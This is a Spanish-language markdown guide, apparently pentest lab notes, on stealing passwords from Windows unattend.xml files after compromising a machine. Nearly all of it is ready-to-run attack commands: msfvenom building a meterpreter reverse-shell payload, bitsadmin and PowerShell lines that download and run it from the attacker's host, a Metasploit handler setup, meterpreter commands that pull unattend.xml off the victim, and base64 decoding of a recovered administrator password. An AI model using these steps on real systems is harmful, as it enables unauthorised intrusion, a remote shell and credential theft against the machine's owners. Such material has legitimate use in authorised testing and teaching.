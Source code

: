 # Searching for Passwords in Windows Configuration Files (unattend.xml)

---

##  Objetivo
Extraer contraseñas almacenadas en archivos de configuración de Windows (`unattend.xml`) a través de una sesión `meterpreter`, después de comprometer el equipo con un payload personalizado.

---

##  Requisitos
- Acceso a una máquina atacante con Kali Linux.
- Acceso inicial a una máquina víctima con Windows.
- `msfvenom`, `msfconsole`, servidor HTTP (Python), sesión `meterpreter`.

---

##  Paso 1: Crear el payload malicioso

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<tu_IP> LPORT=<puerto> -f exe > payload.exe
```

- `-p` → payload meterpreter para Windows x64.
- `LHOST` y `LPORT` → IP y puerto del atacante.
- `-f exe` → formato ejecutable para Windows.

---

##  Paso 2: Servir el payload con Python

```bash
python3 -m http.server 80
```

- Sirve `payload.exe` desde el directorio actual a través de HTTP.

---

##  Paso 3: Descargar el payload desde la máquina víctima

```cmd
bitsadmin /transfer payload /download /priority high http://<tu_IP>/payload.exe C:\Windows\Temp\payload.exe
```

O (más moderno y estable):

```cmd
powershell -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri http://<tu_IP>/payload.exe -OutFile C:\Windows\Temp\payload.exe"
```

---

##  Paso 4: Lanzar Metasploit y configurar el handler

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <tu_IP>
set LPORT <puerto>
set ExitOnSession false
exploit -j
```

- Deja el handler escuchando para recibir la conexión reversa.

---

##  Paso 5: Ejecutar el payload desde la víctima

```cmd
C:\Windows\Temp\payload.exe
```

Una vez ejecutado, recibirás una sesión en Metasploit.

---

##  Paso 6: Buscar archivos de configuración en la víctima

Desde la sesión `meterpreter`:

```bash
cd C:\\Windows\\Panther
ls
```

Busca el archivo:
```bash
download unattend.xml /root/Desktop/
```

O en otras rutas:
```bash
cd C:\\Windows\\System32\\Sysprep
cd C:\\Windows\\Panther\\UnattendGC
```

---

##  Paso 7: Leer y decodificar la contraseña (Base64)

Abre el archivo `unattend.xml` descargado y localiza la línea:

```xml
<Password>
  <Value>QWRtaW5AMTIz</Value>
  <PlainText>false</PlainText>
</Password>
```

Decodifica en Linux:

```bash
echo 'QWRtaW5AMTIz' | base64 -d
```

Resultado:
```
Admin@123
```

O en PowerShell:

```powershell
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("QWRtaW5AMTIz"))
```

---

##  Notas importantes

- `unattend.xml` se usa en despliegues automatizados de Windows (Sysprep) y **suele contener contraseñas en texto claro o Base64**.
- También revisa: `sysprep.xml`, `autounattend.xml`, o cualquier `.xml` en `C:\Windows\Panther\` y `C:\Windows\System32\Sysprep`.
- El hecho de que `PlainText=false` no significa que esté cifrado, sólo codificado (trivial de recuperar).

---

